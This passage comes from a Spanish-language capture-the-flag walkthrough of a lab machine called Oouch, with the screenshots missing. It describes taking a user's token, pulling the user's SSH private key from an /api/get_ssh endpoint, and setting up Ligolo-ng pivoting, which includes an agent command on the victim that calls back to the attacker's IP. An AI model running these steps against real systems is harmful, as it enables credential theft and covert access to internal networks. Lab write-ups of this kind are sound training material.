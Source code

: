 Lo mandamos y esperamos la respuesta
![[Pasted image 20240202172258.png]]
![[Pasted image 20240202172346.png]]

Con este codigo, obtendremos el token del usuario QTC
![[Pasted image 20240202172440.png]]

## Information Leakage
![[Pasted image 20240202172532.png]]

Lo siguiente sera mandar una peticion a **/api/get_ssh** para obtener la id_rsa del usuario
![[Pasted image 20240202172818.png]]

Lo copiamos a un archivo e intentamos conectarnos a la maquina
![[Pasted image 20240202172937.png]]

## Host Discovery y Port Discovery
Para la parte del host discovery y port discovery yo usare Ligolo para facilitar el pivoting desde mi maquina.
```
sudo ip tuntap add user $USER mode tun ligolo
```

```
sudo ip link set ligolo up
```

```
sudo ip route add 172.18.0.0/24 dev ligolo
sudo ip route add 172.17.0.0/24 dev ligolo
```

en nuestra maquina iniciamos el proxy
```
./proxy -selfcert
```

En la maquina victima ejecutamos esto
```
./agent -connect 10.10.14.153:11601 -ignore-cert &
```

Y iniciamos la sesion en nuestro proxy
```
[Agent : qtc@oouch] » INFO[0024] Starting tunnel to qtc@oouch                 
WARN[0024] Lost connection with agent qtc@oouch!        
[Agent : qtc@oouch] » 
ligolo-ng » session
? Specify a session : 2 - qtc@oouch - 10.129.35.232:47080
[Agent : qtc@oouch] » start
[Agent : qtc@oouch] » INFO[0029] Starting tunnel to qtc@oouch  
```
